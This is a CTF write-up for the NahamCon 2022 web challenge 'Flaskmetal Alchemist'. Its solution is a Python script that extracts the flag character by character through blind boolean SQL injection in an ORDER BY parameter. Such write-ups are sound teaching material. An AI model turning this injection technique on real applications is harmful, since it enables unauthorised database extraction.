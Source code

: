 ```yaml
---
name: Flaskmetal Alchemist (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Flaskmetal Alchemist (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flaskmetal Alchemist

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=705 "NahamCon CTF 2022: Flaskmetal Alchemist")

## Description

> Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

## Solution

{% code overflow="wrap" %}
```py
import requests
import string
from bs4 import BeautifulSoup

url = 'http://challenge.nahamcon.com:30010/'
flag = 'flag{'
index = 6

# Until we've got the whole flag
while flag[-1] != '}':
    for char in list('_' + string.ascii_lowercase + '}'):  # Charset
        # Post data, orderby is the SQLi (blind boolean)
        data = {"search": "",
                "order": f"(CASE WHEN (SELECT (SUBSTR(flag, {index}, 1)) from flag ) = '{char}' THEN name ELSE atomic_number END) DESC--"}

        response = requests.post(url, data=data)
        # Extract the first value
        extracted = BeautifulSoup(response.text, features="lxml").td.contents[0]

        # If it's 116 (Livermorium) then condition is false
        if extracted != '116':
            flag += char
            print(flag)
            index += 1
            break
```
{% endcode %}

